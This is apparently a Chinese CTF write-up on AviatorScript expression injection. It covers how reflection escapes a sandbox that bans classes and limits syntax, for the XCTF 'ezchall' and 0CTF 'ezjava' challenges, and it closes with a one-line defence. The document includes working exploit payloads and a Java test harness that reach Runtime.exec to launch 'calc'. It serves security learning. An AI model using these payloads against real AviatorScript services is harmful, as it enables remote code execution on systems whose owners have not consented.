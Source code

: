 **AviatorScript 表达式注入**

## 参考

来自于啊韬师傅的分享

## 附件

[ezchall.jar](https://www.yuque.com/attachments/yuque/0/2023/jar/25358086/1702608715217-c3de6f96-0810-4ffd-95e1-23e4f11e801a.jar)

## 分析

#### XCTF - ezchall

22年赛宁夏令营的一道题，具体实现代码可以查看附件
沙盒设置了两层防护：
1设置仅支持的语法特性：赋值、for循环、while循环、匿名函数lambda定义、局部变量
2禁止任何 class
根据文档(https://www.yuque.com/boyan-avfmj/aviatorscript/xbdgg2#azo1K)可知，还有反射可以进行利用，从而获取所需的各种类。如：对应`class java.lang.Class`->`getClass(getClass(''))`
但是这个反射只能获取`非static修饰的公共方法`，具体过滤代码如下

![](https://cdn.nlark.com/yuque/0/2023/png/25358086/1702608716458-c347fe5b-440a-481e-a288-9e744b49fc39.png#averageHue=%232d2c2c&id=gPRpH&originHeight=868&originWidth=2158&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

此时则无法利用表达式的反射形式调用`forName`方法，需要通过自己构造反射进行利用。
通过`getDeclaredMethods()`获取到`forName`方法

```java
getDeclaredMethods(getClass(getClass('')))[1]
```

通过`getDeclaredMethod(String method, Class[] classes)`获取到`forName`方法
关键在于获取Class数组，AviatorScript倒是提供`seq.array_of`用于创建数组，但是因为禁止任何Class的缘故无法使用该函数。在查看Class可调用的方法时找到了`getInterfaces()`、`getDeclaredClasses()`、`getClasses()`是可以返回Class数组
找到`java.util.Map`接口类刚好返回大小为1的Class数组，于是有如下操作（也刚好这里语法特性支持赋值)

```java
c1 = getDeclaredClasses(getInterfaces(getClass(seq.map(1,1)))[0]);
c1[0] = getClass('');
```

除了上面两种方式，其实还想过利用`ClassLoader#loadClass`方法获取`Class`，但是找了几个类调用`getClassLoader()`获取的都是`null`（猜测这里应该都是取到`Bootstrap ClassLoader`，没有找到能够利用的类遂放弃）
Object数组可以利用`tuple()`得到

##### **Code**

```java
package com.example.ctf;

import com.googlecode.aviator.AviatorEvaluatorInstance;
import com.googlecode.aviator.Feature;
import com.googlecode.aviator.Options;
import com.googlecode.aviator.script.AviatorScriptEngine;

import javax.script.ScriptEngineManager;
import javax.script.ScriptException;
import java.util.HashSet;

public class Test {
    public static void main(String[] args) throws ScriptException {
        String s = "c = getInterfaces(getClass(seq.map(1,1)));\n" +
                "c1 = getClasses(c[0]);\n" +
                "c1[0] = getClass('');\n" +
                "c2 = getClass(getClass(''));\n" +
                "m = getDeclaredMethod(c2, \"forName\", c1);\n" +
                "r = invoke(m, c2, tuple('java.lang.Runtime'));\n" +
                "m1 = getDeclaredMethod(r, \"getRuntime\", getClasses(getClass('')));\n" +
                "r1 = invoke(m1, r, tuple());\n" +
                "m2 = getDeclaredMethod(r, \"exec\", c1);\n" +
                "invoke(m2, r1, tuple(\"calc\"));";
        ScriptEngineManager sem = new ScriptEngineManager();
        AviatorScriptEngine engineByName = (AviatorScriptEngine) sem.getEngineByName("AviatorScript");
        AviatorEvaluatorInstance instance = engineByName.getEngine();
        instance.setOption(Options.FEATURE_SET, Feature.asSet(Feature.Assignment, Feature.ForLoop, Feature.WhileLoop, Feature.Lambda, Feature.Let));
        HashSet<Object> classes = new HashSet<>();
        instance.setOption(Options.ALLOWED_CLASS_SET, classes);
        engineByName.eval(s);
    }
}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25358086/1702608716616-8fc1474c-72ec-45cd-9d38-e054c7ee6d8e.png#averageHue=%23626262&id=F554a&originHeight=1332&originWidth=2467&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

##### **EXP**

```java
c = getInterfaces(getClass(seq.map(1,1))); 
c1 = getDeclaredClasses(c[0]);
c1[0] = getClass('');
c2 = getClass(getClass(''));
m = getDeclaredMethod(c2, "forName", c1);
r = invoke(m, c2, tuple('java.lang.Runtime'));
m1 = getDeclaredMethod(r, "getRuntime", getClasses(getClass('')));
r1 = invoke(m1, r, tuple());
exec(r1, "calc");
```

#### **0CTF - ezjava**

仅给出表达式部分内容
与上面那道题目不同的地方，该题进一步限制语法特性，导致第一题中赋值部分的操作就不行了，得把他们合到一句中

```java
exec(invoke(getMethod(invoke(getMethods(getClass(getClass('')))[0],getClass(getClass('')),tuple('java.lang.Runtime')),"getRuntime",getClasses(getClass(''))),tuple(),tuple()),"calc")
```

## **防御手段**

若使用过程中不会使用到反射特性，使用如下代码关闭反射

```java
instance.setFunctionMissing(null);
```

